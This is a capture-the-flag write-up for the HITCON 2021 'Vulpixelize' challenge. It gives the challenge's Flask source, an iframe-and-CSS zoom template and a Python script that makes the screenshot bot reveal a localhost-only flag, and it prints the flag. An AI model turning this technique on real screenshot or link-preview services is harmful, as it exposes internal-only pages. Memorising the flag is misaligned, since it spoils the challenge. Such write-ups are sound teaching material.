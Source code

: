 # HITCON 2021 - Vulpixelize (232 points)

My solution for this challenge is maybe unintended and not very technical, but it works :)

---

We can send a URL that the bot will visit.  
It then takes a screenshot of the page, blurs it and returns us the result :  

![vulpixelize](img/vulpixelize.png)  

```py
@app.route('/submit', methods=['GET'])
def submit():
    path = 'static/images/%s.png' % uuid.uuid4().hex
    url  = request.args.get('url')
    if url:
        # secrity check
        if not url.startswith('http://') and not url.startswith('https://'):
            return message(msg='malformed url')

        # access url
        try:
            driver.get(url)
            data = driver.get_screenshot_as_png()
        except common.exceptions.WebDriverException as e:
            return message(msg=str(e))

        # save result
        img = Image.open(io.BytesIO(data))
        img = img.resize((64,64), resample=Image.BILINEAR)
        img = img.resize((1920,1080), Image.NEAREST)
        img.save(path)

        return message(msg=path)
    else:
        return message(msg="url not found :(")
```
  
There is a special endpoint at `/flag` that displays the flag only if we come from `127.0.0.1`, so only the bot can view the flag :  
```py
@app.route('/flag')
def flag():
    print(request.remote_addr)
    if request.remote_addr == '127.0.0.1':
        return message(FLAG)
    return message("allow only from local")
```
  
The idea is to redirect the bot to a page we control that contains an iframe which refers to the `/flag` endpoint, and zooms on parts of the flag to have large enough characters to bypass the blur.  
  
I used a combo of `div` with an `iframe` embedded in it to get only a part of the flag, and `transform`, `left`, `top` CSS properties to zoom on these parts.  
Here is the jinja template that does that :  
```html
<!DOCTYPE html>
<html>
    <head>
        <style>
#outerdiv {
    width: 1800px;
    height: 1000px;
    overflow: hidden;
    position: relative;
}

#inneriframe {
    position: absolute;
    width: 100px;
    height: 100px;
    zoom: 20;
    -moz-transform: scale(20);
    -moz-transform-origin: 0 0;
    -webkit-transform: scale(20);
    -webkit-transform-origin: 0 0;
    border: none;
    left: -{{idx}}px;
    top: -320px;
}
        </style>
    </head>
    <body>
        <div id="outerdiv">
            <iframe src="http://127.0.0.1:8000/flag#msg" id="inneriframe" scrolling=yes></iframe>
        </div>
    </body>
</html>
```
  
Each picture looks like this :  
![first part of flag](img/00.png)  
  
The python script that automates the process (increment the `left` in the template and save the screenshot) :  
```py
from jinja2 import Template
from bs4 import BeautifulSoup

import requests
import os

HOST = "http://3.113.172.41:26478/"
# HOST = "http://0.0.0.0:8000/"

html = Template(open("./index.html.jinja2").read())

for idx in range(13):
    with open("./index.html", "w") as f:
        f.write(html.render(idx=450+90*idx))

    r = requests.get(HOST + "/submit?url=http%3A%2F%2FMON-IP%3AMON-PORT%2F")
    soup = BeautifulSoup(r.text, "html.parser")

    img = requests.get(HOST + soup.find(id="msg").a["href"])
    with open("img/{:02d}.png".format(idx), "wb") as f:
        f.write(img.content)

    print(idx)

os.system("bash -c 'convert img/{00..06}.png +append img/flag-0.png'")
os.system("bash -c 'convert img/{07..12}.png +append img/flag-1.png'")
```
  
The last two lines assemble all the images in 2 images that contains the flag :  
![flag 0](img/flag-0.png)  
![flag 1](img/flag-1.png)  
  
FLAG : `hitcon{1-1-4-1-6-1-e-9-f-9-4-c-7-3-e-4-9-7-a-7-5-d-4-6-6-c-6-3-3-7-f-4}`
